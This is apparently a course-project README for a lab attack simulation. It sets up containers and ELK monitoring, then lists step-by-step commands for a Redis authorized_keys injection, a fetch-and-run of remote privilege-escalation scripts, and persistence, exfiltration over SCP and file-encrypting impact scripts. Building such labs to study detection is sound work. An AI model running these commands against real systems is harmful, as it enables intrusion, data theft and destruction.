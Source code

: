 # Preparing the Setup (Pre-requisites)

## Change docker-desktop settings (increase RAM and max virtual memory required by ELK)
- Go to %UserProfile%
- Create a file .wslconfig
- Edit to include the following below:

```
# Settings apply across all Linux distros running on WSL 2
[wsl2]
kernelCommandLine = "sysctl.vm.max_map_count=262144"
# Limits VM memory to use no more than 5 GB, this can be set as whole numbers using GB or MB
memory=5GB
```
References:
- https://mrakelinggar.medium.com/set-up-configs-like-memory-limits-in-docker-for-windows-and-wsl2-80689997309c
- https://stackoverflow.com/questions/69214301/using-docker-desktop-for-windows-how-can-sysctl-parameters-be-configured-to-per
- https://gist.github.com/audionerd/d7d77d9af080a7a87d9b

# Setting up the Attack Environment

1. Bring up all the containers:
```
vagrant up --no-parallel
```
2. Start metricbeat in the ELK container. Open the terminal (docker terminal or external) and enter:
```
service metricbeat start && metricbeat setup -e
```

# Exploit Manual/Steps
1. Reverse shell into the target
```
sudo ssh -i ~/.ssh/id_rsa resch@172.18.0.2

# Accepts the prompt to trust connection
yes
```
Should the connection not work (still asked for password), run the following commands again:
```
printf "keys *\nconfig set dir /home/resch/.ssh\nconfig set dbfilename 'authorized_keys'\nsave\nexit" | redis-cli -h 172.18.0.2

sudo ssh -i ~/.ssh/id_rsa resch@172.18.0.2

yes
```

2. Download all attack scripts which also executes privilege escalation exploiting Crobjob
```
wget https://raw.githubusercontent.com/S692/ICT3204C1G5/main/Gp5_import_scripts_and_PE.sh && chmod +x Gp5_import_scripts_and_PE.sh

# Downloads scripts and run PE exploit
./Gp5_import_scripts_and_PE.sh

# ONLY IF YOU did not successfully become root, execute the following command:
cd /home/resch/.scripts
./Gp5_PEexploitSudo.sh
```
3. Run the attack chain scripts chaining persistence to encryption
```
cd /home/resch/.scripts
./Gp5_attack_chain.sh
```
Alternatively, it can be executed one by one:
```
cd /home/resch/.scripts
./check.sh
pip3 install -r ./requirements.txt
./Gp5_persistence1.sh
./Gp5_file_and_dir_discovery.sh
./Gp5_collectiontarget.sh
./Gp5_exfiltration_target.sh
python3 Gp5_encrypt.py fndd-stripped.txt
```
4. After exfiltration, the encrypted exfiltrated files can be decrypted on the attacker's machine
```
cd ~
./Gp5_after_exfiltration_attk.sh
cd /home/vagrant/exfiltrated/exfiltrate_backups_decrypted
ls -la
```
5. To check for persistence, once all attack scripts on the target machine have executed, shut down the target machine. Then, run the command `vagrant up --provision`. Once all guest machines have rebooted, Gp5_persistence2.sh should have been executed.

# Information on the project files
### Attack Scripts/Files
- Gp5_PEexploitCron.sh
  - Privilege excalation via cronjob wildcard injection
- Gp5_PEexploitSudo.sh
  - Privilege escalaion via Sudo heap overflow vulnerability
- Gp5_persistence1.sh & Gp5_persistence2.sh
  - Persistence to enable other scripts to run on startup
- Gp5_file_and_dir_discovery.sh & Gp5_file_and_dir_discovery-stripped.sh
  - List directories and files of potential interest
- Gp5_collectiontarget.sh
  - Crontab with RSYNC to automatically add files into exfiltration destination folder
- Gp5_exfiltration_attk.sh
  - Setup collection point for the files that will be exfiltrated later on
- Gp5_exfiltration_target.sh
  - Encrypt and exfiltrate files out using SCP via SSH to the attacker's machine
- Gp5_after_exfiltration_attk.sh
  - Used to decrypt and extract the exfiltrated file
- Gp5_encrypt.py
  - Used to encrypt and delete files listed from file and directories discovery
- check.sh
  - Check for dependencies for Gp5_encrpy.py to execute successfully
- requirements.txt
  - List of dependencies needed for encryption and deletion (impact)
- Gp5_import_scripts_and_PE.sh
  - Script to import the scripts above into the target machine for execution
  - Runs Gp5_PEexploitCron.sh once all files have been downloaded
---
### Container Setup Files
- Gp5_setup.sh
  - Used to setup and download all the dependencies and files needed for the simulation attack to work on the target machine.
- Gp5_attk_setup.sh
  - Used to setup and download all the dependencies/files needed on the attacker's machine, to successfully exploit the target.
---
### Logs and Monitoring Tools (Beats) Setup files
- auditbeat.yml
  - Preconfigured Auditbeat configuration file that will be replaced with the one in the target system.
- filebeatConf.py
  - Replaces keywords in the Filebeat configuration file.
- redis.yml
  - Redis module configuration file that exists in Filebeat.
- system.yml
  - System module configuration file that exisits in Filebeat.
- metricbeat.yml
  - Main configuration file of metricbeat that will be replaced with the one in the installed system.
- kibana.yml
  - Enable Stack Monitoring and allows configuration of other monitoring features.
### Importing & Viewing Kibana Dashboard
1. Navigate to http://localhost:5601 and select Stack Management from the menu.
2. On the Stack Management page, click on Saved Objects under Kibana from the menu.
3. Select the Import button on the right side of the screen and click on "Select a file to import". Choose a file from your device to import into Kibana. In this case, it would be "Gp5_kibana-dashboard-export.ndjson".
4. To view the dashboard, search for "ICT3204 Assignment" in the Saved Objects searhbox, and select the item found. 
